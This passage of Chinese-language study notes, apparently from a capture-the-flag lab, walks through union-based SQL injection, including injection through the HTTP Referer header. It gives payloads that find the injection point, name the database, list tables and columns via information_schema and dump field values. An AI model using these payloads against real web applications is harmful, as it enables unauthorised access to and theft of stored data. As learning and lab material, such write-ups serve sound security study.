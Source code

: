 接着爆破出指定表中的字段名bupodkvqlj

```
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='mfowyfekft'
```

![image-20240121010216208](E:\学习资料\网安\笔记\笔记截图\image-20240121010216208.png)

接着爆破出该字段的值

```
-1 union select 1,group_concat(bupodkvqlj) from mfowyfekft
```

![image-20240121010512712](E:\学习资料\网安\笔记\笔记截图\image-20240121010512712.png)

**Refer注入**

referer的一些知识：

HTTP_REFERER简介

HTTP Referer是header的一部分，当浏览器向 web 服务器发送请求的时候，一般会带上Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用于处理。

这句话的意思就是，只有当你向浏览器发送请求时，才会带上referer

如果一开始就抓包不发送请求是的得不到referer的

所以我们需要向浏览器发送一个post请求，这时我们就可以看到我们的referer了

![image-20240121015153856](E:\学习资料\网安\笔记\笔记截图\image-20240121015153856.png)

判断一下注入点

```
-1 union select 1,2
```

![image-20240121015722871](E:\学习资料\网安\笔记\笔记截图\image-20240121015722871.png)

爆库发现sqli

```
-1 union select database(),1
```

![image-20240121015844405](E:\学习资料\网安\笔记\笔记截图\image-20240121015844405.png)

爆表发现xlnrydecar,news

```
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
```

![image-20240121020023823](E:\学习资料\网安\笔记\笔记截图\image-20240121020023823.png)

查询固定表中的字段名gdtnnnhjrs

```
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='xlnrydecar'
```
